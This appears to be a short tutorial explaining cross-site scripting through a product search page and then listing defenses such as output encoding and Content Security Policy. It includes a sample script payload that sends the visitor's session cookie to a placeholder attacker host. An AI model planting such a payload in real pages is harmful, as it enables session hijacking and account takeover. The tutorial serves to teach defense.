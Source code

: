 Here's an example of how XSS works:

> Suppose a web application has a search feature that allows users to search for products by name. The application takes the user's input and generates a search results page that displays the matching products. Here's an example of the search results page:

```sql
Search Results for 'shoes'

Product Name | Description | Price
-----------------------------------
Running Shoes | Lightweight and comfortable | $99.99
Basketball Shoes | Durable and supportive | $129.99
...

```

An attacker can take advantage of this input and inject a malicious script such as:
```javascript
<script>
  window.location = 'http://attacker.com/steal?cookie=' + document.cookie;
</script>
```

When this input is submitted to the application, the search results page generated by the application would include the attacker's script:
```sql
Search Results for '<script>window.location = 'http://attacker.com/steal?cookie=' + document.cookie;</script>'

Product Name | Description | Price
-----------------------------------
Running Shoes | Lightweight and comfortable | $99.99
Basketball Shoes | Durable and supportive | $129.99
...

```

> When another user views this page, the attacker's script will execute in the context of the user's browser and redirect the user to the attacker's website, passing the user's session cookie as a parameter in the URL. With the session cookie, the attacker can potentially impersonate the user and perform actions on their behalf.

This is just one example of how XSS can be used to exploit vulnerabilities in an application's input handling. Here are some ways to prevent XSS attacks:

* Input Validation: Validate user input and sanitize any input that could potentially contain malicious scripts. This involves checking the input for characters that may have special meaning in HTML or JavaScript, such as angle brackets or quotation marks, and escaping or removing them.

* Output Encoding: Encode user-generated content that is displayed on a web page to prevent scripts from executing. This involves converting characters with special meaning in HTML or JavaScript, such as angle brackets or ampersands, to their corresponding HTML entities.

* Content Security Policy (CSP): Use a CSP to specify the types of content that are allowed to be loaded on a web page. This can prevent malicious scripts from executing by disallowing the loading of external scripts or inline scripts.
